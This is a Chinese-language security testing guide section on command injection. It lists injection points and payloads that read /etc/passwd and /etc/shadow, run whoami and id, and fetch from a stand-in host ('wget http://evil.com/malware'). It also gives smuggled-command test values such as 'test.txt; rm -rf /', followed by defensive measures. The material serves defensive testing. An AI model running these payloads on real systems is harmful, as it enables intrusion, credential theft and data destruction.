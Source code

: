 **可能的命令执行点**:
- 文件上传处理
- 数据导出功能
- 系统工具调用
- 外部程序集成
- 文件格式转换

**命令注入载荷**:
```bash
# Linux/Unix命令注入
; ls -la
| cat /etc/passwd
&& whoami
`id`
$(uname -a)

# Windows命令注入
& dir
| type C:\Windows\System32\drivers\etc\hosts
&& whoami

# 通用载荷
; ping -c 4 127.0.0.1
| curl http://evil.com/
&& wget http://evil.com/malware
```

**测试示例**:
```
# 文件名注入
filename="test.txt; rm -rf /"
filename="test.txt && cat /etc/passwd"

# 参数注入
parameter="normal_value; malicious_command"
parameter="normal_value | cat /etc/shadow"

# 路径注入
path="/normal/path; ls -la /"
path="/normal/path && id"
```

**防护措施**:
- 避免直接执行系统命令
- 使用白名单验证输入
- 参数化命令执行
- 最小权限原则
- 沙箱环境执行

**预期结果**:
- 命令注入攻击被阻止
- 恶意命令不被执行
- 系统权限得到有效控制
- 输入验证机制有效

---